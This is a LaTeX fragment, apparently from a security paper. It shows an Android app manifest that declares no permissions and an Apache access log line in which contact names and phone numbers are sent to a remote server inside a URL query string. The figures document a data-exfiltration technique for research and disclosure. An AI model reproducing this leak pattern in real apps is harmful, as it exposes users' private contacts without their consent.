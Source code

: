 \documentclass[conference,compsoc]{IEEEtran}
\begin{document}
\begin{figure}
\begin{lstlisting}
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.maps.wee_strom" >

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".HomeActivity"
            android:label="@string/app_name"
            android:theme="@style/AppTheme.NoActionBar" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
\end{lstlisting}
\caption{Wee-Strom AndroidManifest.xml}
\label{fig:WSManifest}
\end{figure}


\begin{figure}
\begin{lstlisting}
71.112.171.256 - - [05/Oct/2015:12:01:08 -0400] "GET /favicon.ico HTTP/1.1" 404 504 "http://104.131.190.124/index.html?contacts=SEARCH+RESULTS%0A2+Contacts+Found%0A%0AHomer+Simpson%0A%09%28555%29+888-9999+%5BMOBILE%5D%0AJames+T.+Kirk%0A%09%28555%29+777-1401+%5BMOBILE%5D%0A" "Mozilla/5.0 (Linux; Android 6.0; Android SDK built for x86 Build/MRA44C; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/44.0.2403.119 Mobile Safari/537.36"
\end{lstlisting}
\caption{Apache access.log of exfiltrated data}
\label{fig:accesslog}
\end{figure}
\end{document}
